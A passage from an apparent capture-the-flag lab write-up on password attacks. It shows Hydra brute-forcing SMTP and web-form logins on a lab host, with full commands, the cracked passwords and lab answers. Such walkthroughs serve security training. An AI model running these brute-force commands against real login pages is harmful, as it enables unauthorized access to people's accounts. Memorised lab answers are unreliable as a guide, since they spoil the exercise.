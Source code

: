 ```console
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.129.191   login: pittman@clinic.thmredteam.com   password: !multidisciplinary00
[STATUS] attack finished for 10.10.129.191 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 11:37:46
```
{: .nolineno }

Answer : !multidisciplinary00

### Perform a brute-forcing attack against the phillips account for the login page at http://10.10.129.191/login-get using hydra? What is the flag?

Using hydra again the connection form :

```console
root@ip-10-10-226-237:~/Desktop/test# hydra -l phillips -P clinic.txt 10.10.129.191 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2022-04-16 11:47:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 105 login tries (l:1/p:105), ~7 tries per task
[DATA] attacking http-get-form://10.10.129.191:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php
[80][http-get-form] host: 10.10.129.191   login: phillips   password: Paracetamol
[STATUS] attack finished for 10.10.129.191 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2022-04-16 11:47:56
```
{: .nolineno }

Then log in to the form http://10.10.129.191/login-get with the credentials :

![Flag](/images/thm/passwordattacks/passwordattacks_10.png)
_Flag_
